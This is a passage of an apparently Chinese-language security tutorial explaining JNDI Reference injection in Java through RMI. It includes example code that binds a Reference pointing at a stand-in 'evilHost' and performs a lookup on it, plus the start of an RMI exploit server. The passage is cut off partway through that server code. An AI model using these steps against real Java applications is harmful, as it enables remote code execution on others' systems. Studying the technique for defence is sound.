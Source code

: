 这里可以看到调用完`Reference`后又调用了`ReferenceWrapper`将前面的`Reference`对象给传进去，这是为什么呢？  
其实查看`Reference`就可以知道原因，查看到`Reference`,并没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类，前面讲`RMI`的时候说过，将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有看到相关的代码，所以这里还需要调用`ReferenceWrapper`将他给封装一下。

## [JNDI References 注入](#toc_jndi-references)

为了在命名服务或目录服务中绑定`Java`对象，可以使用`Java`序列化来传输对象，但有时候不太合适，比如`Java`对象较大的情况。因此 JNDI 定义了命名引用 (`Naming References`)，后面直接简称引用 (`References`)。这样对象就可以通过绑定一个可以被命名管理器 (`Naming Manager`) 解码并解析为原始对象的引用，间接地存储在命名或目录服务中。  
引用由`Reference`类来表示，它由地址 (`RefAddress`) 的有序列表和所引用对象的信息组成。而每个地址包含了如何构造对应的对象的信息，包括引用对象的`Java`类名，以及用于创建对象的`ObjectFactory`类的名称和位置。  
`Reference`可以使用`ObjectFactory`来构造对象。当使用`lookup()`方法查找对象时，`Reference`将使用提供的`ObjectFactory`类的加载地址来加载`ObjectFactory`类，`ObjectFactory`类将构造出需要的对象。

所谓的 `JNDI` 注入就是控制 `lookup` 函数的参数，这样来使客户端访问恶意的 `RMI` 或者 `LDAP` 服务来加载恶意的对象，从而执行代码，完成利用  
在 `JNDI` 服务中，通过绑定一个外部远程对象让客户端请求，从而使客户端恶意代码执行的方式就是利用 `Reference` 类实现的。`Reference` 类表示对存在于命名/目录系统以外的对象的引用。  
具体则是指如果远程获取 `RMI` 服务器上的对象为 `Reference` 类或者其子类时，则可以从其他服务器上加载 `class` 字节码文件来实例化  
`Reference` 类常用属性：

```bash
className 远程加载时所使用的类名
classFactory 加载的 class 中需要实例化类的名称
classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议
```

比如：

```bash
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );           
registry.bind("Exploit", new ReferenceWrapper(reference));
```

此时，假设使用 `rmi` 协议，客户端通过 `lookup` 函数请求上面 `bind` 设置的 `Exploit`

```bash
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是 `Reference` 对象，客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例，构造方法中的恶意代码就会被执行

## [JNDI\_RMI](#toc_jndi_rmi)

本节主要分析 JNDI 在使用 RMI 协议时面临的攻击面。

### [低版本 JDK 运行](#toc_jdk)

服务端代码：

```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ServerExp {

    public static void main(String args[]) {

        try {
            Registry registry = LocateRegistry.createRegistry(1099);

            String factoryUrl = "http://localhost:1098/";
            Reference reference = new Reference("EvilClass","EvilClass", factoryUrl);
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("Foo", wrapper);
```